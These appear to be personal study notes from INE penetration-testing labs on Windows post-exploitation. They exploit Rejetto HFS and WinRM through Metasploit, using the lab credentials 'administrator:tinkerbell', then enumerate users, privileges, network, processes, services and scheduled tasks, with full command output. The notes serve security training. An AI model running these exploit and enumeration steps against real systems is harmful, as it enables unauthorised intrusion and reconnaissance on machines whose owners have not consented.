# 🔬Windows Post-Exploitation

> 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - **Local Windows Enumeration**

> 📝📌 **Always document and save all the Post-Exploitation Local Enumeration in a local file.**

## Enumeration & Exploitation

```bash
nmap -sV 10.2.16.155
    80/tcp    open  http         HttpFileServer httpd 2.3
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
```

```bash
searchsploit rejetto
service postgresql start && msfconsole -q
```

```bash
search rejetto
use exploit/windows/http/rejetto_hfs_exec
setg RHOSTS 10.2.16.155
setg RHOST 10.2.16.155
run
	meterpreter >
```

## Local Enumeration

### System Information

- In the **`Meterpreter`** session

```bash
getuid
	Server username: WIN-OMCNBKR66MN\Administrator
```

```bash
sysinfo
    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows
```

```bash
show_mount
    Mounts / Drives
    ===============
    Name  Type   Size (Total)  Size (Free)  Mapped to
    ----  ----   ------------  -----------  ---------
    C:\   fixed  30.00 GiB     15.93 GiB    
```

```bash
cat C:\\Windows\\System32\\eula.txt
```

```bash
shell
```

- In the **`Windows command prompt`** session

```powershell
hostname
	WIN-OMCNBKR66MN
```

```powershell
systeminfo
```

```bash
Host Name:                 WIN-OMCNBKR66MN
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          EC2
Registered Organization:   Amazon.com
Product ID:                00252-70000-00000-AA535
Original Install Date:     9/10/2020, 9:10:37 AM
System Boot Time:          4/27/2023, 2:33:00 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Coordinated Universal Time
Total Physical Memory:     1,024 MB
Available Physical Memory: 460 MB
Virtual Memory: Max Size:  9,216 MB
Virtual Memory: Available: 8,208 MB
Virtual Memory: In Use:    1,008 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              \\WIN-OMCNBKR66MN
Hotfix(s):                 208 Hotfix(s) Installed. # Important!!!
                           [01]: KB2894856
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2919442
                           [05]: KB2934520
                           [06]: KB2938066
                           [07]: KB2938772
                           [08]: KB2949621
                           [09]: KB2954879
                           [10]: KB2955164
                           [..]
                           [205]: KB4565635
                           [206]: KB4566425
                           [207]: KB4569753
                           [208]: KB4571703
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.2.16.1
                                 IP address(es)
                                 [01]: 10.2.16.155
                                 [02]: fe80::a5a1:9519:8a1:ccf9
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

- Get specific info about the KBs. pay attention to the **Security Updates**

```powershell
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

```bash
Caption                                     Description      HotFixID InstalledOn  
http://support.microsoft.com/?kbid=2894856  Security Update  KB2894856 10/15/2014
http://support.microsoft.com/?kbid=2896496  Update           KB2896496  6/20/2014
http://support.microsoft.com/?kbid=2919355  Update           KB2919355  3/18/2014
http://support.microsoft.com/?kbid=2919442  Update           KB2919442  3/18/2014
http://support.microsoft.com/?kbid=2934520  Update           KB2934520  1/13/2015
http://support.microsoft.com/?kbid=2938066  Update           KB2938066  7/10/2014
```

### Users & Groups

```powershell
getuid
	WIN-OMCNBKR66MN\Administrator

# "Administrator" user privileges
```

- *Privilege escalation* is not necessary in this case

```powershell
getprivs
    SeBackupPrivilege
    SeChangeNotifyPrivilege
    SeCreateGlobalPrivilege
    SeCreatePagefilePrivilege
    SeCreateSymbolicLinkPrivilege
    SeDebugPrivilege
    SeImpersonatePrivilege
    SeIncreaseBasePriorityPrivilege
    SeIncreaseQuotaPrivilege
    SeIncreaseWorkingSetPrivilege
    SeLoadDriverPrivilege
    SeManageVolumePrivilege
    SeProfileSingleProcessPrivilege
    SeRemoteShutdownPrivilege
    SeRestorePrivilege
    SeSecurityPrivilege
    SeShutdownPrivilege
    SeSystemEnvironmentPrivilege
    SeSystemProfilePrivilege
    SeSystemtimePrivilege
    SeTakeOwnershipPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

- Enumerate **current/recent logged-on users**

```bash
background
search logged_on
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```



- Back into the `Meterpreter` session

```bash
sessions 1
shell
```

- In the **`Windows command prompt`** session

```powershell
whoami
	win-omcnbkr66mn\administrator
```

```powershell
whoami /priv
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                  Description                               State  
=============================== ========================================= =======
SeIncreaseQuotaPrivilege        Adjust memory quotas for a process        Enabled
SeSecurityPrivilege             Manage auditing and security log          Enabled
SeTakeOwnershipPrivilege        Take ownership of files or other objects  Enabled
SeLoadDriverPrivilege           Load and unload device drivers            Enabled
SeSystemProfilePrivilege        Profile system performance                Enabled
SeSystemtimePrivilege           Change the system time                    Enabled
SeProfileSingleProcessPrivilege Profile single process                    Enabled
SeIncreaseBasePriorityPrivilege Increase scheduling priority              Enabled
SeCreatePagefilePrivilege       Create a pagefile                         Enabled
SeBackupPrivilege               Back up files and directories             Enabled
SeRestorePrivilege              Restore files and directories             Enabled
SeShutdownPrivilege             Shut down the system                      Enabled
SeDebugPrivilege                Debug programs                            Enabled
SeSystemEnvironmentPrivilege    Modify firmware environment values        Enabled
SeChangeNotifyPrivilege         Bypass traverse checking                  Enabled
SeRemoteShutdownPrivilege       Force shutdown from a remote system       Enabled
SeUndockPrivilege               Remove computer from docking station      Enabled
SeManageVolumePrivilege         Perform volume maintenance tasks          Enabled
SeImpersonatePrivilege          Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege         Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege   Increase a process working set            Enabled
SeTimeZonePrivilege             Change the time zone                      Enabled
SeCreateSymbolicLinkPrivilege   Create symbolic links                     Enabled
```

- Enumerate **current logged-on users**

```powershell
query user
```

```bash
USERNAME       SESSIONNAME ID  STATE   IDLE TIME  LOGON TIME
>administrator  console      1  Active      none   4/27/2023 2:33 PM
```

- Display all the accounts

```powershell
net users
```

```bash
User accounts for \\WIN-OMCNBKR66MN
------------------------------------
Administrator            Guest
```

```powershell
net user <USER_NAME>
net user Administrator
```

```bash
User name                Administrator
Full Name
Comment                  Built-in account for administering the computer/domain
User's comment
Country/region code      000 (System Default)
Account active           Yes
Account expires          Never
Password last set        9/10/2020 9:10:03 AM
Password expires         Never
Password changeable      9/10/2020 9:10:03 AM
Password required        Yes
User may change password Yes
Workstations allowed     All
Logon script
User profile
Home directory
Last logon               4/27/2023 2:33:14 PM
Logon hours allowed      All
Local Group Memberships  *Administrators
Global Group memberships *None
```

- Enumerate **groups**

```powershell
net localgroup
```

```bash
Aliases for \\WIN-OMCNBKR66MN
------------------------------------
*Access Control Assistance Operators
*Administrators
*Backup Operators
*Certificate Service DCOM Access
*Cryptographic Operators
*Distributed COM Users
*Event Log Readers
*Guests
*Hyper-V Administrators
*IIS_IUSRS
*Network Configuration Operators
*Performance Log Users
*Performance Monitor Users
*Power Users
*Print Operators
*RDS Endpoint Servers
*RDS Management Servers
*RDS Remote Access Servers
*Remote Desktop Users
*Remote Management Users
*Replicator
*Users
*WinRMRemoteWMIUsers__
```

```powershell
net localgroup Administrators
    Members
    -------------
    Administrator
```

```powershell
net localgroup "Remote Desktop Users"
```

### Network Information

- Show **network adapter** info

```powershell
ipconfig
ipconfig /all
```

```bash
Windows IP Configuration
   Host Name . . . . . . . . . . . . : WIN-OMCNBKR66MN
   Primary Dns Suffix  . . . . . . . : 
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : eu-central-1.ec2-utilities.amazonaws.com
                                       ap-southeast-1.ec2-utilities.amazonaws.com
                                       us-east-1.ec2-utilities.amazonaws.com
                                       ap-southeast-1.compute.internal
                                       eu-central-1.compute.internal
Ethernet adapter Ethernet 2:
   Connection-specific DNS Suffix  . : eu-central-1.compute.internal
   Description . . . . . . . . . . . : AWS PV Network Device #0
   Physical Address. . . . . . . . . : 02-24-DD-E9-09-EC
   DHCP Enabled. . . . . . . . . . . : Yes
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::a5a1:9519:8a1:ccf9%12(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.2.16.155(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Lease Obtained. . . . . . . . . . : Thursday, April 27, 2023 2:33:06 PM
   Lease Expires . . . . . . . . . . : Thursday, April 27, 2023 4:03:06 PM
   Default Gateway . . . . . . . . . : 10.2.16.1
   DHCP Server . . . . . . . . . . . : 10.2.16.1
   DHCPv6 IAID . . . . . . . . . . . : 319697556
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-26-EB-A5-6A-06-4E-FA-4C-65-EA
   DNS Servers . . . . . . . . . . . : 10.2.0.2
   NetBIOS over Tcpip. . . . . . . . : Enabled
Tunnel adapter isatap.eu-central-1.compute.internal:

   Media State . . . . . . . . . . . : Media disconnected
   Connection-specific DNS Suffix  . : eu-central-1.compute.internal
   Description . . . . . . . . . . . : Microsoft ISATAP Adapter #2
   Physical Address. . . . . . . . . : 00-00-00-00-00-00-00-E0
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes

# Pay attention to the internal networks and to the DNS & DHCP server
```

- Display the **routing table**

```powershell
route print
```

```bash
===========================================================================
Interface List
 12...02 24 dd e9 09 ec ......AWS PV Network Device #0
  1...........................Software Loopback Interface 1
 15...00 00 00 00 00 00 00 e0 Microsoft ISATAP Adapter #2
===========================================================================
IPv4 Route Table
===========================================================================
Active Routes:
Network Destination        Netmask          Gateway       Interface  Metric
          0.0.0.0          0.0.0.0        10.2.16.1      10.2.16.155     10
        10.2.16.0    255.255.240.0         On-link       10.2.16.155    266
      10.2.16.155  255.255.255.255         On-link       10.2.16.155    266
      10.2.31.255  255.255.255.255         On-link       10.2.16.155    266
        127.0.0.0        255.0.0.0         On-link         127.0.0.1    306
        127.0.0.1  255.255.255.255         On-link         127.0.0.1    306
  127.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  169.254.169.123  255.255.255.255        10.2.16.1      10.2.16.155     10
  169.254.169.249  255.255.255.255        10.2.16.1      10.2.16.155     10
  169.254.169.250  255.255.255.255        10.2.16.1      10.2.16.155     10
  169.254.169.251  255.255.255.255        10.2.16.1      10.2.16.155     10
  169.254.169.253  255.255.255.255        10.2.16.1      10.2.16.155     10
  169.254.169.254  255.255.255.255        10.2.16.1      10.2.16.155     10
        224.0.0.0        240.0.0.0         On-link         127.0.0.1    306
        224.0.0.0        240.0.0.0         On-link       10.2.16.155    266
  255.255.255.255  255.255.255.255         On-link         127.0.0.1    306
  255.255.255.255  255.255.255.255         On-link       10.2.16.155    266
===========================================================================
Persistent Routes:
  None
IPv6 Route Table
===========================================================================
Active Routes:
 If Metric Network Destination      Gateway
  1    306 ::1/128                  On-link
 12    266 fe80::/64                On-link
 12    266 fe80::a5a1:9519:8a1:ccf9/128
                                    On-link
  1    306 ff00::/8                 On-link
 12    266 ff00::/8                 On-link
===========================================================================
Persistent Routes:
  None
```

- Check the `arp` table for a list of all devices on the network

```powershell
arp -a
```

```bash
Interface: 10.2.16.155 --- 0xc
  Internet Address Physical Address  Type
  10.2.16.1        02-08-7c-d8-24-82 dynamic
  10.2.16.110      02-0c-79-06-eb-90 dynamic
  10.2.19.34       02-8d-74-b4-d5-18 dynamic
  10.2.30.254      02-ef-27-b5-9f-2a dynamic
  10.2.31.255      ff-ff-ff-ff-ff-ff static
  169.254.169.254  02-08-7c-d8-24-82 dynamic
  224.0.0.22       01-00-5e-00-00-16 static
  224.0.0.252      01-00-5e-00-00-fc static
  255.255.255.255  ff-ff-ff-ff-ff-ff static
```

- List open listening connections/ports

```powershell
netstat -ano
```

```bash
Active Connections
  Proto  Local Address     Foreign Address    State       PID
  TCP    0.0.0.0:80        0.0.0.0:0          LISTENING   2668 # HTTP
  TCP    0.0.0.0:135       0.0.0.0:0          LISTENING   748  # NetBIOS
  TCP    0.0.0.0:445       0.0.0.0:0          LISTENING   4	   # SMB
  TCP    0.0.0.0:3389      0.0.0.0:0          LISTENING   1872 # RDP
  TCP    0.0.0.0:5985      0.0.0.0:0          LISTENING   4
  TCP    0.0.0.0:47001     0.0.0.0:0          LISTENING   4
  TCP    0.0.0.0:49152     0.0.0.0:0          LISTENING   568
  TCP    0.0.0.0:49153     0.0.0.0:0          LISTENING   856
  TCP    0.0.0.0:49154     0.0.0.0:0          LISTENING   892
  TCP    0.0.0.0:49155     0.0.0.0:0          LISTENING   1060
  TCP    0.0.0.0:49164     0.0.0.0:0          LISTENING   656
  TCP    0.0.0.0:49177     0.0.0.0:0          LISTENING   664
  TCP    10.2.16.155:139   0.0.0.0:0          LISTENING   4
  TCP    10.2.16.155:49426 10.2.19.34:443     ESTABLISHED 1084
  TCP    10.2.16.155:49472 10.10.11.2:4444    ESTABLISHED 2240 # Meterpreter Session
  TCP    10.2.16.155:50053 10.2.30.254:443    TIME_WAIT   0
  TCP    10.2.16.155:50076 169.254.169.254:80 CLOSE_WAIT  1268
  TCP    10.2.16.155:50082 10.2.16.110:443    ESTABLISHED 1084
  TCP    127.0.0.1:80      127.0.0.1:50084    ESTABLISHED 2668
  TCP    127.0.0.1:80      127.0.0.1:50085    ESTABLISHED 2668
  TCP    127.0.0.1:50084   127.0.0.1:80       ESTABLISHED 2936
  TCP    127.0.0.1:50085   127.0.0.1:80       ESTABLISHED 2936
  TCP    [::]:135          [::]:0             LISTENING   748
  TCP    [::]:445          [::]:0             LISTENING   4
  TCP    [::]:3389         [::]:0             LISTENING   1872
  TCP    [::]:5985         [::]:0             LISTENING   4
  TCP    [::]:47001        [::]:0             LISTENING   4
  TCP    [::]:49152        [::]:0             LISTENING   568
  TCP    [::]:49153        [::]:0             LISTENING   856
  TCP    [::]:49154        [::]:0             LISTENING   892
  TCP    [::]:49155        [::]:0             LISTENING   1060
  TCP    [::]:49164        [::]:0             LISTENING   656
  TCP    [::]:49177        [::]:0             LISTENING   664
  UDP    0.0.0.0:500       *:*                            892
  UDP    0.0.0.0:3389      *:*                            1872
  UDP    0.0.0.0:4500      *:*                            892
  UDP    0.0.0.0:5355      *:*                            1016
  UDP    10.2.16.155:137   *:*                            4
  UDP    10.2.16.155:138   *:*                            4
  UDP    [::]:500          *:*                            892
  UDP    [::]:3389         *:*                            1872
  UDP    [::]:4500         *:*                            892
  UDP    [::]:5355         *:*                            1016
```

- **Win Firewall** state

```powershell
netsh firewall show state

netsh advfirewall show allprofiles
    An error occurred while attempting to contact the  Windows Firewall service.
	Make sure that the service is running and try your request again.

# Win Firewall is disabled
```

### Processes & Services

- Enumerate all **running processes**, from a `Meterpreter` session

```powershell
ps
```

```bash
Process List
============

 PID   PPID  Name               Arch  Session  User                         Path
 ---   ----  ----               ----  -------  ----							----
 0     0     [System Process]
 4     0     System             x64   0
 56    656   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE C:\Windows\System32\svchost.exe
 348   4     smss.exe           x64   0
 496   488   csrss.exe          x64   0
 560   552   csrss.exe          x64   1
 568   488   wininit.exe        x64   0        NT AUTHORITY\SYSTEM          C:\Windows\System32\wininit.exe
 596   552   winlogon.exe       x64   1        NT AUTHORITY\SYSTEM          C:\Windows\System32\winlogon.exe
[...]

# "User" collumn is important
```

- **Process migration** is recommended to obtain a stable `Meterpreter session`

```powershell
pgrep explorer.exe

migrate <PROCESS_ID>
```



- In the **`Windows command prompt`** session
- List **started services**

```powershell
net start
```

```bash
These Windows services are started:
   Amazon SSM Agent
   AWS Lite Guest Agent
   Background Tasks Infrastructure Service
   Base Filtering Engine
   Certificate Propagation
   CNG Key Isolation
   COM+ Event System
   Cryptographic Services
   DCOM Server Process Launcher
   Device Install Service
   Device Setup Manager
   [...]
```

```powershell
wmic service list brief
```

```bash
ExitCode Name                 ProcessId  StartMode  State    Status  
0        AeLookupSvc          0          Manual     Stopped  OK
1077     ALG                  0          Manual     Stopped  OK
0        AmazonSSMAgent       1084       Auto       Running  OK
1077     AppIDSvc             0          Manual     Stopped  OK
1077     Appinfo              0          Manual     Stopped  OK
1077     AppMgmt              0          Manual     Stopped  OK
1077     AppReadiness         0          Manual     Stopped  OK
1077     AppXSvc              0          Manual     Stopped  OK
1077     AudioEndpointBuilder 0          Manual     Stopped  OK
1077     Audiosrv             0          Manual     Stopped  OK
0        AWSLiteAgent         1144       Auto       Running  OK
0        BFE                  896        Auto       Running  OK
1077     BITS                 0          Manual     Stopped  OK
0        BrokerInfrastructure 720        Auto       Running  OK
1077     Browser              0          Disabled   Stopped  OK
0        CertPropSvc          904        Manual     Running  OK
```

- List the **running tasks and the corresponding services**

```powershell
tasklist /SVC
```

```bash
Image Name           PID Services                                    
==================== === ============================================
System Idle Process    0 N/A                                         
System                 4 N/A                                         
smss.exe             348 N/A                                         
csrss.exe            496 N/A                                         
csrss.exe            560 N/A                                         
wininit.exe          568 N/A                                         
winlogon.exe         596 N/A                                         
services.exe         656 N/A                                         
lsass.exe            664 KeyIso, SamSs                               
svchost.exe          720 BrokerInfrastructure, DcomLaunch,           
                         DeviceInstall, LSM, PlugPlay, Power,        
                         SystemEventsBroker                          
svchost.exe          748 RpcEptMapper, RpcSs                         
dwm.exe              848 N/A                                         
svchost.exe          856 Dhcp, EventLog, lmhosts, Wcmsvc             
svchost.exe          904 CertPropSvc, DsmSvc, gpsvc, IKEEXT,         
                                   iphlpsvc, LanmanServer, ProfSvc, Schedule,  
                                   SENS, SessionEnv, ShellHWDetection, Themes, 
                                   Winmgmt
[...]
```

- List the **scheduled tasks**

> 📌 Scheduled tasks can be misconfigured and vulnerable to **exploitation** and **privilege escalation**!

```powershell
schtasks /query /fo LIST
schtasks /query /fo LIST /v
```

```bash
Folder: \Microsoft\Windows\Workplace Join
HostName:      WIN-OMCNBKR66MN
TaskName:      \Microsoft\Windows\Workplace Join\Automatic-Workplace-Join
Next Run Time: N/A
Status:        Disabled
Logon Mode:    Interactive/Background

Folder: \Microsoft\Windows\WS
HostName:      WIN-OMCNBKR66MN
TaskName:      \Microsoft\Windows\WS\License Validation
Next Run Time: N/A
Status:        Disabled
Logon Mode:    Interactive/Background

HostName:      WIN-OMCNBKR66MN
TaskName:      \Microsoft\Windows\WS\WSTask
Next Run Time: N/A
Status:        Ready
Logon Mode:    Interactive/Background

Folder: \Mozilla
HostName:      WIN-OMCNBKR66MN
TaskName:      \Mozilla\Firefox Default Browser Agent E7CF176E110C211B
Next Run Time: 4/28/2023 9:05:00 AM
Status:        Ready
Logon Mode:    Interactive only

[...]
```

## Automating Local Enum

> 🔬 INE LAB
>
> - Target IP: `10.2.16.155`
> - Credentials: `administrator`:`tinkerbell`
> - Automation Tools:
>   - [JAWS - Just Another Windows (Enum) Script](https://github.com/411Hall/JAWS)
>   - Metasploit Framework

**`JAWS`** - PowerShell 2.0 script designed to help penetration testers quickly *identify potential privilege escalation vectors on Windows systems.*

```powershell
PS C:\temp> .\jaws-enum.ps1 -OutputFileName Jaws-Enum.txt
```

### Enumeration & Exploitation

```bash
# Target WinRM
nmap -sV -p 5985 10.2.17.152
	5985/tcp open  http  Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

```bash
service postgresql start && msfconsole -q
search winrm
use exploit/windows/winrm/winrm_script_exec
setg RHOSTS 10.2.17.152
setg RHOST 10.2.17.152
set USERNAME administrator
set PASSWORD tinkerbell
set FORCE_VBS true
run
```



### Metasploit Post-Exploitation

```bash
background
```

- Enumerate **current user privileges**

```bash
use post/windows/gather/win_privs
set SESSION 1
run
```



- Enumerate **logged on users**

```bash
use post/windows/gather/enum_logged_on_users
set SESSION 1
run
```



- Check if the target is a **VM or a container**

```bash
use post/windows/gather/checkvm
set SESSION 1
run
```



- Enumerate **installed applications**
  - Search for vulnerabilities in the installed programs

```bash
use post/windows/gather/enum_applications
set SESSION 1
run
```



- Enumerate same **LAN computers**

```bash
use post/windows/gather/enum_computers
set SESSION 1
run
```



- Enumerate **installed updates/patches**

```bash
use post/windows/gather/enum_patches
set SESSION 1
run
```



- Enumerate the **SMB shares**

```bash
use post/windows/gather/enum_shares
set SESSION 1
run
```



### JAWS

- Copy the content of the [jaws-enum.ps1](https://github.com/411Hall/JAWS/blob/master/jaws-enum.ps1) script and save it in the lab environment

